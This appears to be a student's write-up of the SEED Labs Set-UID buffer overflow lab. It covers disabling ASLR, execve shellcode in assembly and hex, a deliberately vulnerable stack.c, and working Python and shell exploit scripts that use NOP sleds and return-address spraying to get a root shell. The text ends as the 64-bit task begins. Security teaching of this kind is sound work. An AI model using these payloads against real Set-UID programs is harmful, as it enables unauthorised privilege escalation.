

# SEEDLabs -- Buffer Overflow Attack Lab (Set-UID)

## Overview

*Buffer overflow* is the condition in which a program attempts to write data beyond the boundary of a buffer. This vulnerability can be exploited by a malicious user to alter the flow control of a program, leading to the execution of malicious code. 

In this lab, the objective is to gain practical insights into this type of vulnerability, and learn how to exploit the vulnerability in attacks. The following topics are covered here:

1. Buffer overflow vulnerability and attack
2. Stack layout
3. Address randomisation, non-execuatable stacks, and StackGuard
4. Shellcode (32- and 64-bit)

All code found below are available [here](./src).

## Environment setup

Modern operating systems have implemented several security mechanisms to make the buffer overflow attack difficult. To simplify our attacks, we need to disable them first. Later on, we will enable them and see if our attacks are still successful.

For convenience, a simple bash script `protect_off.sh` was written in order to turn off the protectibe measures as discussed below.

### Address space randomisation

Ubuntu and several other Linux-based systems use address space randomisation to randomise the starting addresses of the heap and stack. This makes guessing the exact addresses difficult -- guessing addresses is one of the critical steps of buffer overflow attacks. This feature can be disabled using the command:

```bash
~$ sudo sysctl -w kernel.randomize_va_space=0
```

### Configuring `/bin/sh`

In recent versions of Ubuntu OS, `/bin/sh` is a symbolic link pointing to the `/bin/dash` shell. `dash`, as well as `bash`, has implemention a security countermeasure that prevents itself from being executed in a `Set-UID` process. Basically, if they detect that they are being executed in a `Set-UID` process, they will immediately change the *effective user ID* to the *process's real user ID*, essentially dropping the privilege. 

Our target program here is a `Set-UID` program, and our attack relies on running `/bin/sh`. Thus, the countermeasure in `dash` makes our attack more difficult. Therefore, we will link `/bin/sh` to another shell that does not have such a countermeasure -- `zsh`. To do so, we use the command

```bash
~$ sudo ln -sf /bin/zsh /bin/sh
```

### StackGuard and non-executable stack

These are two additional countermeasures that are implemented in the system, and are turned off during compilation of the target program.

## Task 1: Getting familiar with shellcode

The ultimate goal of buffer overflow attacks is to inject amlicious code into the target program, so that the code can be executed **using the target program's privilege**. *Shellcode* is widely used in most code-injection attacks.

For more on shellcode, one can consult the [Shellcode Development Lab by SEEDLabs](../seedlabs_shellcode_dev/notes.md). Here, we will only discuss some basics.

### Shellcode in C

A shellcode is essentially a piece of code that launches a shell. If we were to use C code to implement it, it will look like:

```C
#include <stdio.h>

int main()
{
    char* name[2];

    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

Unfortunately, we cannot just compile this code and use its binary as our shellcode. This is due to a few reasons:

1. Writing shellcode in a high-level language like C may require dependencies on libraries that do not exist in the target program. 
2. It is often advantageous for shellcode to be as small as possible. Writing shell code in a high-level language gives us **little control** over the length of the shell code.
3. High-level languages often assume that the computer is in a fairly normal state, but this may not be the case since we are injecting code. We not be able to rely on the stack as we may have already smashed it. 
4. Shellcode is restricted as it cannot contain zero bytes, compilers for high level languages will not know that this is a restriction. 

Thus, the best way to write shellcode is via assembly code. Here, the binary version of a shellcode is provided without much explanation. Again, for more details about shellcode, consult the [Shellcode Development Lab by SEEDLabs](../seedlabs_shellcode_dev/notes.md).

### 32-bit shellcode

In 32-bit assembly code, a simple shellcode is as follows:

```assembly
; Store the command on stack
xor  eax, eax
push eax
push "//sh"
push "/bin"
mov  ebx, esp       ; ebx --> "/bin//sh": 1st argument for execve()

; Construct the argument array argv[]
push eax            ; argv[1] = 0
push ebx            ; argv[0] --> "/bin//sh"
mov  ecx, esp       ; ecx --> argv[]: 2nd argument for execve()

; For environment variables
xor  edx, edx       ; edx = 0: 3rd argument for execve()

; Invoke execve()
xor  eax, eax
mov   al, 0x0b      ; system call number of execve()
int  0x80
```

This shellcode simply invokes the syscall `execve()` to execute `/bin/sh`. We briefly note the following points:

1. The third instruction pushes "`//sh`" rather than "`/sh`" onto the stack. This is because the 24-bit "`/sh`" will be padded with a zero byte to become 32-bit. In this case "`//`" is equivalent to "`/`". 
   
2. We need to pass **three** arguments to `execve()` via the `ebx`, `ecx` and `edx` registers respectively. Majority of the shellcode is simply constructing the content for these three arguments.
   
3. The syscall `execve()` is called when `al` is set to `0x0b` and "`int 0x80`" is executed.

### 64-bit shellcode

Below is a sample 64-bit shellcode. It is similar to the 32-bit shellcode, except that the names of the registers and the registers used by `execve()` are different.

```assembly
xor  rdx, rdx           ; rdx = 0: 3rd argument for execve()
push rdx
mov  rax, '/bin//sh'    ; the command we want to run
push rax
mov  rdi, rsp           ; rdi --> "/bin//sh": 1st argument for execve()
push rdx                ; argv[1] = 0
push rdi                ; argv[0] --> "/bin//sh"
mov  rsi, rsp           ; rsi --> argv[]: 2nd argument for execve()
xor  rax, rax
mov   al, 0x3b          ; system call number for execve()
syscall
```

### Task: Invoking the shellcode

The binaries from the assembly code above (both 32- and 64-bit) have been generated and placed into a C program called `call_shellcode.c`. 

```c
// call_shellcode.c

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/*
Binary code for setuid(0) 
64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"
*/

const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

The code above includes two copies of shellcode, one for 32-bit and another for 64-bit. When compiling the program, we can use the `-m32` flag to use the 32-bit version. Without the flag, the 64-bit version is used by default.

Using the `Makefile` provided, we can compile the code by using the `make`. Two binaries will be created, `a32.out` (32-bit) and `a64.out` (64-bit). Note that the compilation here also uses the `execstack` options, which will allow code to be executed from the stack -- without it, the execution will fail.


Running the two binaries, they both produce a shell. We can check that it is indeed a new shell by checking the process ID using the command `echo $$`.


*Shell generated by 32-bit shellcode*


*Shell generated by 64-bit shellcode*

## Task 2: Understanding the vulnerable program

The vulnerable program used in this lab is called `stack.c`. This program has a buffer overflow vulnerability, and the goal is to exploit this vulnerability and gain the root privileges. 

```c
// stack.c

#include <stdlib.h>
#include <stdio.h>
#include <string.h> 

// Changing this size will change the layout of the stack.
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char* str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char** argv)
{
    char str[517];
    FILE* badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n")
    return 1;
}
```
*This is an abridged version of the code, some non-essential information has been omitted*

The program above has a buffer overflow vulnerability. It first reads an input from a file called `badfile` and then passes this input into another buffer in the function `bof()`. While the original input can have a maximum length of 517 bytes, but the buffer in `bof()` has a size given by `BUF_SIZE`, which is less than 517 bytes. 

Since `strcpy()` does not check the boundaries, a buffer overflow will occur. Furthermore, the program is a **root-owned** `Set-UID` program. Thus, if a normal user can exploit this buffer overflow vulnerability, the user may be able to obtain a root shell. 

Our objective is to create the contents of `badfile`, such that when the vulnerable program copies the contents into its buffer, a root shell is spawned.

### Compilation

To compile the vulnerable program, we have to turn off the StackGuard and non-executable stack protections using the "`-fno-stack-protector`" and "`-z execstack`" options. After the compilation, we need to make the program a root-owned `Set-UID` program. We can achieve this by first changing the ownership of the program to the `root` userm and then change the permissions to `4755` to enable the `Set-UID` bit. This is done by using the commands:

```bash
~$ sudo chown root stack
~$ sudo chmod 4755 stack
```

The compilation and setup commands are included in the `Makefile`, so we just need to use the command `make` to execute these commands. In `Makefile`, there are four variables: `L1`, `L2`, `L3` and `L4` which dictate the size of the buffer. 

For the purposes of this lab, we set the variables to the following values:

```
L1 = 208    : 100 <= L1 <= 400
L2 = 186    : 100 <= L2 <= 200
L3 = 344    : 100 <= L3 <= 400
L4 = 10     : fixed, since we require it to be smaller than the others. 
```

## Task 3: Launching the attack on a 32-bit program (Level 1)

To exploit the buffer overflow vulnerability in the target program, the most important thing is to know the **distance between the buffer's starting position and the place where the return address is stored**. We will use a debugger to find this piece of information. Since we have the source code of the target program, we can compile it with the debugging flag `-g` to add debugging information into the binary. This is included in the `Makefile`.

First, we create a file called `badfile`:

```bash
~$ touch badfile
```

Then, we use `gdb` to debug `stack-L1-dbg`:

```bash
~$ gdb stack-L1-dbg
```

We set a breakpoint at the function `bof()` using the command `b bof`. Then we run the program until that breakpoint using `run`.


When `gdb` stops at the start of the `bof()` function, it stops **before** the `ebp` register is set to point to the current stack frame. Thus, if we print the value of `ebp` here, we will get the `ebp` value of the **caller**.

We need to use the `next` command to execute a few instructions and stop **after** the `ebp` register is modified to point to the stack frame of the `bof()` function.


Doing so puts us just before the `strcpy()` function is executed. Now, we can print out the value of the stack base pointer, and the buffer's starting address.


> Note that the frame pointer value obtained from `gdb` is different from that during the actual execution. This is because `gdb` has pushed some environment data into the stack before running the debugged program. When the program runs directly (outside of `gdb`), the stack does not have those data, and so the actual frame pointer value is larger.

### Launching attacks

To exploit the buffer overflow vulnerability in the target program, we need to prepare a payload, and save it inside `badfile`. A skeleton Python program `exploit.py` is provided to help us generate the payload.

```python
# exploit.py

#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x90\x90\x90\x90"  
  "\x90\x90\x90\x90"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x00           # Change this number 
offset = 0              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

What we want to do here is to overflow `buffer` in order to overwrite the return address on the stack with our own. Our own return address would then ideally point to the beginning of our shellcode -- but this is difficult. To overcome this, we use a `NOP` sled, i.e. we fill up the space between our return address and the shellcode with the `NOP` instruction (`0x90` in machine code), which simply does nothing and executes the next instruction. Thus, we simply need to point to anywhere within the region between the return address and the shellcode, and the shellcode will eventually be executed. 



First, we have to determine where -- in our payload -- to put in our target return address. We can use the fact that the return address is always at a **fixed** offset from the base pointer of the stack (`ebp`): the return address is always stored at `ebp+4` (for 32-bit systems). Thus, if we know the address of the buffer and the value of `ebp`, we can determine how much we should offset the return address in our payload.

From our investigation with `gdb`, we found that

```
$ebp    = 0xffffcb48
&buffer = 0xffffca70
```

Using Python, we can perform a simple calculation of the offset: 

```python
>>> ebp = 0xffffcb48
>>> buffer = 0xffffca70
>>> offset = (ebp+4) - buffer
>>> print(offset)
220
```

Secondly, we have to provide the address that we wish to return to. Noting that `ebp` will be larger when running the program directly (outside of `gdb`), and the fact that we only need to land into the `NOP` sled, the return address was picked to be `0xffffcbff`. 

Overall, to acheive the buffer overflow, we used the following values in `exploit.py`:

```python
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"    
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')     # Taken from 32-bit shellcode provided.

start = 517 - len(shellcode)    # Place the shellcode at the end of the payload.

ret    = 0xffffcbff       
offset = 220              
```
*These values are saved into `exploit-L1.py`*

The buffer overflow is successful, and we can use the command `id` to check that the **effective UID** is root. 


## Task 4: Launching the attack without knowing buffer size (Level 2)

In the [previous task](#task-3-launching-the-attack-on-a-32-bit-program-level-1), we can find out the size of the buffer via `gdb`. In reality, this information may not be easily obtainable. For example, if the target is a server running on a remote machine, and we do not have the binary or source code. 

In this task, we work under the constraint that the buffer size is unknown and cannot be determined. However, we know that the buffer size ranges from 100 to 200 bytes. The task is to exploit the vulnerability within this constraint. We solve this using a technique known as *spraying*: placing the target return address at every possible position.

> In the original wording of task, we are meant to achieve the exploit using a **single** payload for any buffer size. However, through some exploration, it was discovered that the beginning of `buffer` is may not be aligned to the stack. i.e. in `gdb`, if we look at `&buffer` it may not be a multiple of 4. Thus, naively spraying may not work as the return address maybe slighly offset.
>
> 
>
> In the example above, the buffer is 186 bytes. If we naively spray the target return address, the return address is subsequently offset by two bytes. Thus, it is not possible to use a single payload for any buffer size within the range. 

In this situation, we will require four payloads. In each payload, we will offset the beginning of the spraying by `k` bytes (`k` = 0, 1, 2, 3). These four payloads together, will account for **all** possible buffer sizes within the range. 

We use `exploit-L2.py` to craft the payload `badfile`. `exploit-L2.py` accepts a command-line argument at runtime to determine `k`. If no argument is provided, `k` defaults to zero.

```python
# exploit-L2.py

#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

# Place shellcode into payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Define the return address
ret = 0xffffcbff

# Decide where to put the return address,
# we will spray it starting from the 100th byte.
# but we need of offset it by k bytes(k = 0, 1, 2, 3).

try:
	# k should be given as a command line argument
	k = int(sys.argv[1])
except IndexError:
	# If k is not given, default to 0.
	k = 0

offset = 100 + k
L = 4

# We will spray 120 bytes of it
content[offset:offset + 120] = (ret).to_bytes(L,byteorder='little') * 30

# We write the content to a file
with open ('badfile', 'wb') as f:
	f.write(content)
```

We can then automate the exploitation using a bash script `exploit-L2.sh`.

```bash
# exploit-L2.sh

#!/bin/sh
for K in 0 1 2 3
do
	echo "Using badfile with spray offset k = $K"
	./exploit-L2.py $K
	./stack-L2
done
```

Running the script allows us to successfully obtain the shell with root permissions. 


## Task 5: Launching the attack on a 64-bit program (Level 3)

After investigating buffer overflows in 32-bit programs in the previous tasks, we will now look at buffer overflows in 64-bit programs. The `Makefile` compiles the 64-bit program `stack-L3` which we want to exploit in this task. 

Noting that in 64-bit, the base pointer is `$rbp` instead of `$ebp`, we can find out the relevant addresses


